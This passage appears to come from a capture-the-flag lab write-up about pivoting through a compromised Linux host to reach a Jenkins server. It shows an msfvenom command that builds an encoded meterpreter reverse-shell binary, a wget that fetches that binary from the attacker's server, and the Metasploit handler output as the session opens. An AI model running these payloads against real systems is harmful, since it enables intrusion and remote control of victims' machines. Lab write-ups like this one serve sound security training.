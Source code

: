- here u can see we are able to connect

```bash
ifconfig
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:a7ff:fee7:c0b2  prefixlen 64  scopeid 0x20<link>
        ether 02:42:a7:e7:c0:b2  txqueuelen 0  (Ethernet)
        RX packets 11  bytes 560 (560.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 23  bytes 1697 (1.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

- this is because the compromised system and this is in same network
- In order to reach the jenkins server from our attacker machine, we need to use a technique called **pivoting** which consists of using a compromised system (**pivot**) to access to another system that we cannot access directly from our attacker machine.
- In order to reach the jenkins server from our attacker machine, we need to use a technique called **pivoting** which consists of using a compromised system (**pivot**) to access to another system that we cannot access directly from our attacker machine.

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp -i 10 -e x86/shikata_ga_nai LHOST=10.8.27.17 LPORT=1234 -f elf -o rev_shell.elf
```

- Crafted a payload using msfvenom

```bash
ubreanna@internal:~$ wget http://10.8.27.17:8000/rev_shell.elf
wget http://10.8.27.17:8000/rev_shell.elf
--2025-04-03 13:43:59--  http://10.8.27.17:8000/rev_shell.elf
Connecting to 10.8.27.17:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 520 [application/octet-stream]
Saving to: ‘rev_shell.elf’

rev_shell.elf         0%[                    ]       0  --.-KB/s rev_shell.elf       100%[===================>]     520  --.-KB/s    in 0s      

2025-04-03 13:43:59 (68.6 MB/s) - ‘rev_shell.elf’ saved [520/520]

aubreanna@internal:~$ ls
ls
jenkins.txt  rev_shell.elf  snap  user.txt

```

- Now first set up metasploit handler

```bash
msf6 exploit(multi/handler) > set LHOST 10.8.27.17
LHOST => 10.8.27.17
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.8.27.17:1234 
[*] Sending stage (3045380 bytes) to 10.10.57.182
[*] Meterpreter session 1 opened (10.8.27.17:1234 -> 10.10.57.182:39294) at 2025-04-03 09:47:50 -0400

```
